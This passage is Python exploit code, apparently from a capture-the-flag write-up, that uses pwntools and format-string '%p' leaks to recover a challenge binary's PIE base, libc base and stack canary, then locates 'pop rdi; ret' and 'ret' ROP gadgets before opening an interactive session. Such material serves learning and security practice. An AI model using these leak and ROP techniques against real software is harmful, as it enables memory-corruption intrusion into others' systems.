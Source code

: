 ```py
    get = int(get, 16)
    return get

def libc_leak(offset):
    sh.sendline(b'1')
    sh.sendline(b'2')
    sh.sendline('%{}$p'.format(offset))
    sh.recvuntil(b'Kryptonite?\n')
    get = sh.recvline().strip()
    get = int(get, 16)
    return get

def canary_leak(offset):
    sh.sendline(b'1')
    sh.sendline(b'2')
    sh.sendline('%{}$p'.format(offset))
    sh.recvuntil(b'Kryptonite?\n')
    get = sh.recvline().strip()
    get = int(get, 16)
    return get

sh = start()
# pause()

leak_pie = pie_leak(15)
info(f'LEAKED PIE BASE: {hex(leak_pie)}')
elf.address = leak_pie - 0x174a
success(f'PIE_BASE --> {hex(elf.address)}')

libc_addr = libc_leak(25)
info(f'LIBC --> {hex(libc_addr)}')
libc.address = libc_addr - 0x21b97
success(f'LIBC_BASE --> {hex(libc.address)}')

# canary = canary_leak(23)
canary = canary_leak(13)
success(f'CANARY --> {hex(canary)}')

'''
pwndbg> x/i 0x7fbbef13d18a
   0x7fbbef13d18a <__libc_start_call_main+122>: mov    edi,eax
pwndbg> x/gw 0x7fbbef13d18a
0x7fbbef13d18a <__libc_start_call_main+122>:    0xffe8c789
pwndbg>s
'''

rop = ROP(elf)
rdi = rop.find_gadget(['pop rdi', 'ret']).address
success(f'RDI GADGET --> {hex(rdi)}')

ret = rop.find_gadget(['ret']).address
success(f'RET GADGET --> {hex(ret)}')

sh.interactive()
```
